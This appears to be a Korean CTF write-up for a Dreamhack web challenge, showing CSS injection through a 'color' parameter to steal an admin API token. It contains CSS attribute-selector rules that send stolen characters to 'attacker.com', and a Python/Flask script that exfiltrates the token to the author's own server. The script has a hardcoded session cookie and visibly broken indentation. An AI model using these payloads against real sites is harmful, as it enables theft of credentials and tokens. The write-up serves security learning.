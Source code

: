 ```yaml
---
title: CSS Injection
author: heogi
date: 2024-11-18
categories:
  - CTF
  - Dreamhack
  - Web
tags:
  - CSS
  - CSS-Injection
  - web
comments: true
---
```

# CSS Injection

## 1. Analysis
memo를 작성할 수 있는 서비스를 제공하는 페이지이다.
![](../assets/img/Pasted%20image%2020241118003515.png)
문제에서 제공하는 코드를 살펴보면 `/report` 를 통해 `admin` 이 사용자가 입력한 특정 URL에 접근하도록 할 수 있는 기능이있다.
또한 `/mypage` 에는 `token`  값이 존재하며 해당 값을 `API-KEY` header에 담아 보내면 `/api/memo` 를 통해 작성한 memo를 확인할 수 있다.

또한 `base.html` 의 코드 중 아래 `color` 파라미터를 통해 사용자의 값을 입력할 수 있으며, 이를 통해 CSS Injection을 트리거 할 수 있다.
```html
<style>
body{
	background-color: {{ color }};
}
</style>
```
![](../assets/img/Pasted%20image%2020241119003348.png)
## 2. Attack
공격을 위한 시나리오는 아래와 같다.
```text
1. color 파라미터를 통해 CSS Injection을 수행한다.
2. Admin의 API-Token 값을 탈취한다.
3. /api/memo를 호출하여 Flag를 확인한다.
```
먼저 color 파라미터를 통해 CSS Injection 공격을 진행, Admin의 API-Token을 탈취해야한다.
이를 위해 CSS Injection Technique 중 `Sequential Import Chaining` 사용한다.

### 2-1. Sequential Import Chaining
CSS의 `Attribute Selectors` 기능을 통해 특정 attribute를 가진 object의 value를 탈취하는 기법이다.
`Attribute Selectors` 는 특정 Attribute를 가진 Object의 CSS Style을 지정하는 기능이다.

input Object의 name이 password 이고 해당 Object의 value를 탈취하고 싶다면
아래처럼 `^=` 특성 선택자를 통하여 value 값에 접미사로 설정한 값이 포함되어있다면 Attacker의 URL로 요청을 보내도록 할 수 있다.
만약 value 가 `beast` 라면 `value^=b` 에서 요청을 보내게되며, 다시 `value^=be` 에서 요청을 보내게 된다.

```html
input[name=password][value^=a]{
    background: url('https://attacker.com/a');
}
input[name=password][value^=b]{
    background: url('https://attacker.com/b');
}
/* ... */
input[name=password][value^=9]{
    background: url('https://attacker.com/9');   
}
```

이를 코드로 구현하면 아래와 같다.

```python
import requests
from flask import Flask, request

app = Flask(__name__)

flag = ""
stop = False

def attack():
	global stop
	global flag
	
	url = "http://host3.dreamhack.games:14737/report"
	headers = {"session":"eyJ1aWQiOjIsInVzZXJuYW1lIjoidGVzdCJ9.Z0sWuQ.wJ757vrJQyofNeQ6TyhUOoRob_g"}

	print("Start Attack")
	
	for x in range(0,8):
		for i in range(ord('a'), ord('z') + 1):
			if stop == True:	
			stop = False	
			break
	
		prefix = flag + chr(i)
		print("sending..."+prefix)
		payload = "mypage?color=green; }} input[id=InputApitoken][value^=\{0\}] \{\{ background:url(http://ctf.heogi.com:5000/?c=\{0\})".format(prefix)
		data = {"path" : payload}
		requests.post(url, headers=headers, data=data)
	
	print("End Attack")

@app.route("/")
def index():
	global flag
	global stop
	
	if request.args.get('c'):
		c = request.args.get('c')
		flag = c
		print(flag)
		stop = True
	else:
		attack()
return flag

if __name__ == "__main__":
	app.run(host="0.0.0.0",debug=True,port=5000)
```
![](../assets/img/Pasted%20image%2020241130230050.png)

획득한 API-Token으로 /api/memo를 호출하면 FLAG를 획득할 수 있다.
![](../assets/img/Pasted%20image%2020241130230500.png)
